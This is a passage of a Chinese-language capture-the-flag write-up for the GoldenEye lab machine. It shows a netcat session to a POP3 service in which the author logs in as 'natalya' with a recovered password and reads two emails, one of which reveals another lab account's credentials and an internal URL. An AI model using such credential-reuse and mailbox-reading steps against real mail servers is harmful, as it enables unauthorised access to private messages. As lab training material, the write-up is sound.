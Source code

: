 查看`natalya`邮件信息。

```
┌──(root💀kali)-[~/Desktop]
└─# nc 192.168.32.217 55007                                                                   
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
```

```
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
```

> 娜塔莉亚，请你不要再破坏鲍里斯的密码了。此外，您是 GNO 培训主管。一旦学生被指定给您，我将通过电子邮件发送给您。
>
> 此外，请注意可能的网络漏洞。我们有情报表明，一个名为 Janus 的犯罪集团正在追捕 GoldenEye。

```
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
```